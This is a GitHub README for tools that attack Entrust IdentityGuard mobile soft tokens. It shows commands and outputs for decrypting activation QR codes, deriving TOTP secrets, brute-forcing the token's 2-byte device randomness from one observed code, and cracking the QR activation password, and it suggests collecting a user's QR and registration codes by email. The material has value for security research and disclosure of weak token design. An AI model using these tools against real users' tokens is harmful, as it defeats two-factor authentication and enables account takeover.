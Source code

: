 # entrust-identityguard-tools
Tools for playing with Entrust IdentityGuard soft tokens, such as decrypting QR codes and generating secrets

# decode-qr-uri.py
Run this with the URI from a QR code to recieve the decrypted data. The decrypted data can be later combined with a registration code to derive the TOTP secrets.

Example:
```
$ ./decode-qr-uri.py 'igmobileotp://?action=secactivate&enc=VRUq6IoLWQRCMRITZEHtHUSWJiPwgu%2FN1BFyUHE5kxuHIEYoE3zmNTrAHeeUM5S3gzCnTy%2F%2Bdnbu%2FsjjQW%2BNEISx8C4ra8rLpxOl8E8w4KXHgjeBRgdvSzl%2BbzX5RYRrQlWgK8hsBT4pQYE0eFgW2TmRbzXu1Mu7XjKDcwsJLew32jQC2qyPLP8hljnv2rHwwsMfhQwgJUJYfctwLWWEDUFukEckaZ4O&v=1&mac=mhVL8BWKaishMa5%2B' 54998317
{"sn":"48244-13456","ac":"1745-7712-6942-8698","policy":"{\"allowUnsecured\":\"false\",\"trustedExecution\":\"NOT_ALLOWED\"}","regurl":"myid.umc.edu\/igst"}
```

# generate-otp.py
Once you have the required information from a QR code, you can combine it with a "registration code" to derive the OTP secret. This registration code contains random bytes that were generated on the end-users device (their mobile phone), and are thus required to determine the OTP secret. An example way to obtain all of this information would be through email, if the user recieves a QR code in their email, then responds with their registration code.

The OTP secret optionally includes the policy specification, which is provided as part of the QR code. *If you are having problems generating a valid OTP secret, try with or without the policy parameter*.

Example:
```
$ ./generate-otp.py 48244-13456 1745-7712-6942-8698 12211-49352 --policy '{"allowUnsecured":"false","trustedExecution":"NOT_ALLOWED"}'
bb9b6d72ae99b006de5e106935ec96da

To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 bb9b6d72ae99b006de5e106935ec96da

$ ./generate-otp.py 48244-13456 1745-7712-6942-8698 12211-49352
9a8eab5ecc9fc413758a92ac223dc6a0

To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0

$ oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0
Hex secret: 9a8eab5ecc9fc413758a92ac223dc6a0
Base32 secret: TKHKWXWMT7CBG5MKSKWCEPOGUA======
Digits: 6
Window size: 0
Step size (seconds): 30
Start time: 1970-01-01 00:00:00 UTC (0)
Current time: 2019-10-06 08:50:31 UTC (1570351831)
Counter: 0x31EB8E5 (52345061)

814835
```

# crack-otp.py
Because Entrust soft tokens only use 2 bytes of randomness generated on the end-user device, this means they're trivially bruteforcable given the original QR code and a single OTP output. Simply decode the QR code as usual, and provide it to the script along with an example OTP output and when it was generated. The script will do a sloppy match on the timing (+ and - 30 seconds) to improve the chances of a successful key being found, unless the `--strict-time` paramater is given which causes the script to do an search match.

The script is fast enough on a CPU that a CUDA/OpenCL implmentation is probably not necessary.

Example:
```
$ time ./crack-otp.py 48244-13456 1745-7712-6942-8698 043700 1570434609
Possibe valid OTP seed found:  9a8eab5ecc9fc413758a92ac223dc6a0
To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0

real    0m3.540s
user    0m3.537s
sys     0m0.003s

$ time ./crack-otp.py 48244-13456 1745-7712-6942-8698 043700 1570434609 --strict-time
Possibe valid OTP seed found:  9a8eab5ecc9fc413758a92ac223dc6a0
To generate a code immediately, run:
oathtool -v --totp=sha256 --digits=6 9a8eab5ecc9fc413758a92ac223dc6a0

real    0m1.212s
user    0m1.209s
sys     0m0.003s
```

# crack-qr-uri.go
The QR code normally comes with a relatively weak password, along with a MAC that can verify the password. This allows us to perform a bruteforce of all possible passwords in a relatively short period, even with a CPU implementation. Simply run the script with the QR code URI as a parameter and it will discover the password.

Performance on with a single modern CPU core results in 0.720 seconds (approximately, of course) to perform 1000 password attempts. The keyspace exists from 0 to 99999999.

Example (AWS EC2 c5.metal instance - 96 cores):
```
$ time go run crack-qr-uri.go -uri 'igmobileotp://?action=secactivate&enc=VRUq6IoLWQRCMRITZEHtHUSWJiPwgu%2FN1BFyUHE5kxuHIEYoE3zmNTrAHeeUM5S3gzCnTy%2F%2Bdnbu%2FsjjQW%2BNEISx8C4ra8rLpxOl8E8w4KXHgjeBRgdvSzl%2BbzX5RYRrQlWgK8hsBT4pQYE0eFgW2TmRbzXu1Mu7XjKDcwsJLew32jQC2qyPLP8hljnv2rHwwsMfhQwgJUJYfctwLWWEDUFukEckaZ4O&v=1&mac=mhVL8BWKaishMa5%2B' -threads 95
action=secactivate&enc=VRUq6IoLWQRCMRITZEHtHUSWJiPwgu%2FN1BFyUHE5kxuHIEYoE3zmNTrAHeeUM5S3gzCnTy%2F%2Bdnbu%2FsjjQW%2BNEISx8C4ra8rLpxOl8E8w4KXHgjeBRgdvSzl%2BbzX5RYRrQlWgK8hsBT4pQYE0eFgW2TmRbzXu1Mu7XjKDcwsJLew32jQC2qyPLP8hljnv2rHwwsMfhQwgJUJYfctwLWWEDUFukEckaZ4O&v=1
Candidate password found:  54998317

real    67m23.690s
user    3047m42.788s
sys     870m1.228s
```

Thre is also an OpenCL version of this process which can be found at https://github.com/JJJollyjim/entrust-2fa-opencl, which can be further optimised if desired.
